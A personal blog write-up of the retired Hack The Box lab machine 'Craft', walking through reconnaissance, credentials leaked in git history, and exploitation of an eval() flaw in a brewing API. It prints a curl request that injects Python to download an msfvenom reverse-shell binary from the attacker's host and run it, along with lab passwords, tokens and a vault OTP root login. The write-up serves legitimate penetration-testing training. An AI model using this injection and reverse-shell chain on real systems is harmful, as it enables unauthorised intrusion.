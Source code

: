 ```yaml
---
title: "[Writeup] Hack The Box: Craft"
date: 2020-03-17T22:03:11+07:00
categories: [writeup]
tags: [writeup, walkthrough, htb, hackthebox]
---
```


Hello! It's been ages since I've updated this blog. This is a writeup for "Craft" on HTB that I have written since last November, when it was still up and running. I have totally forgotten about it until today, which I have just found out that it has been retired. It's a few months late, and there are writeups on this box everywhere, but here it is.

{{< img src="/images/writeup/htb_craft/craft.png">}}

<!--more-->

**OS:** Linux  
**Difficulty:** Medium  
**Points:** 30  
**Release:** 13 Jul 2019  
**IP:** 10.10.10.110  
**Date Cleared:** 5 Nov 2019

## Information Gathering

### Nmap Scan Result

```
# Nmap 7.70 scan initiated Tue Nov  5 00:31:41 2019 as: nmap -sV -sC -O -oN nmap 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: 400 The plain HTTP request was sent to HTTPS port
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: ERROR: Script execution failed (use -d to debug)
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=11/5%OT=22%CT=1%CU=35820%PV=Y%DS=2%DC=I%G=Y%TM=5DC1099
OS:7%P=i686-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=107%TI=Z%CI=Z%TS=8)SEQ(SP=106
OS:%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=9)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=
OS:M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=71
OS:20%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=N)ECN(R=Y%DF=Y%T=40%W=7210%O=M5
OS:4DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov  5 00:33:11 2019 -- 1 IP address (1 host up) scanned in 89.92 seconds
```

Found a webserver on 443 and ssh on 22.

### Port 443

The webpage itself is using the domain craft.htb, and the page contains links to 'https://api.craft.htb/api/' and 'https://gogs.craft.htb/', therefore; we need to add `10.10.10.110    craft.htb api.craft.htb gogs.craft.htb` to our host file '/etc/hosts'.

{{< img src="/images/writeup/htb_craft/443-home.png">}}

#### GOGS

The page 'https://gogs.craft.htb/' is hosting a Git service, in which we could explore and see the contents of the repository.

{{< img src="/images/writeup/htb_craft/443-gog-home.png">}}

{{< img src="/images/writeup/htb_craft/443-gog-explore.png">}}

Looking through the commit history, the credential 'dinesh:4aUh0A8PbVJxgd' could be found in commit '10e3ba4f0a', and was later deleted in commit 'a2d28ed155'.

{{< img src="/images/writeup/htb_craft/443-gog-creds.png">}}

In the Issues page, we found an example of endpoint calling
`curl -H 'X-Craft-API-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTU0OTM4NTI0Mn0.-wW1aJkLQDOE-GP5pQd3z_BJTe2Uo0jJ_mQ238P5Dqw' -H "Content-Type: application/json" -k -X POST https://api.craft.htb/api/brew/ --data '{"name":"bullshit","brewer":"bullshit", "style": "bullshit", "abv": "15.0")}'`, and a warning that the new patch is dangerous.

{{< img src="/images/writeup/htb_craft/443-gog-issue.png">}}

In the latest commit, a "patch" was commited, adding 'eval()' function to the brew endpoint which would process the user's input, so we could use this endpoint to execute system commands.

{{< img src="/images/writeup/htb_craft/443-gog-eval.png">}}

#### API

The page 'https://api.craft.htb/api/' is a swagger page showing the API documentation.

{{< img src="/images/writeup/htb_craft/443-api-home.png">}}

Using the credential found in the git repository, a valid token could be generated using /auth/login API.

```
"token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTcyOTM2NjM2fQ.p06PEETfQsCMYcrOVk0Mo1gff4WhqbzQrFef2wZzh64"
```

{{< img src="/images/writeup/htb_craft/443-api-token.png">}}

## Exploitation

Our goal is to gain a remote shell connection, we could do it by running a python command `__import__("os").system("cd /tmp; wget 10.10.14.162/revshell; chmod +x /tmp/revshell; /tmp/revshell")` to upload a reverse shell binary generated with msfvenom (`msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.10.14.162 LPORT= 443 -f elf -o revshell`) using Python SimpleHTTPServer and create a connection back to us.

Using the API calling template we got, we can modify the token and abv parameter as follows:

```
curl -H 'X-Craft-API-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTcyOTM4ODkzfQ.TG6NcTG7evwYOyi0x70PiHYEqs7Psyizfim5p_YyvGc' -H 'Content-Type: application/json' -k -X POST https://api.craft.htb/api/brew/ --data '{"name":"bullshit","brewer":"bullshit", "style": "bullshit", "abv": "__import__(\"os\").system(\"cd /tmp; wget 10.10.14.162/revshell; chmod +x /tmp/revshell; /tmp/revshell\") #"}'
```

Using a handler, we got a reverse shell connection as root; however, after a bit of digging, it seems like we were inside a Docker container.

{{< img src="/images/writeup/htb_craft/handler.png">}}

{{< img src="/images/writeup/htb_craft/docker.png">}}

Found some credentials in '/opt/app/craft_api/settings.py'

{{< img src="/images/writeup/htb_craft/sh-creds.png">}}

Python was found in '/usr/local/bin', so we can add the directory to path to gain access to more commands using `export PATH=$PATH:/usr/local/bin`.

Found 'dbtest.py' in '/opt/app' which we could modify the query and change `cursor.fetchone()` to `cursor.fetchall()` to dump the content of the database.

Query: 'show databases'

{{< img src="/images/writeup/htb_craft/dbs.png">}}

Query: 'show tables'

{{< img src="/images/writeup/htb_craft/tables.png">}}

Query: 'select * from user'

{{< img src="/images/writeup/htb_craft/user.png">}}

We found multiple credentials which are:

```
dinesh:4aUh0A8PbVJxgd
ebachman:llJ77D8QFkLPQB
gilfoyle:ZEU3N8WNM2rh4T
```

Using the credential 'gilfoyle:ZEU3N8WNM2rh4T', we could log into GOG and see the private repository named 'craft-intra'.

{{< img src="/images/writeup/htb_craft/443-gog-private.png">}}

In the repository, a private key and public key pair could be found.

{{< img src="/images/writeup/htb_craft/443-gog-key.png">}}

๊Using the private key, we can ssh to the target with the credential 'gilfoyle:ZEU3N8WNM2rh4T'

{{< img src="/images/writeup/htb_craft/ssh.png">}}

Got the user flag.

{{< img src="/images/writeup/htb_craft/proof-user-blur.png">}}

## Privilege Escalation

From the GGO, there is a vault configuration file, enabling ssh secret with the role 'root_opt' that has root permission.

{{< img src="/images/writeup/htb_craft/vault-secret.png">}}

Using `vault ssh -role root_otp -mode otp root@127.0.0.1`, we could ssh to the target server itself and gain root with vault OTP.

{{< img src="/images/writeup/htb_craft/root.png">}}

OWNED!

{{< img src="/images/writeup/htb_craft/proof-root-blur.png">}}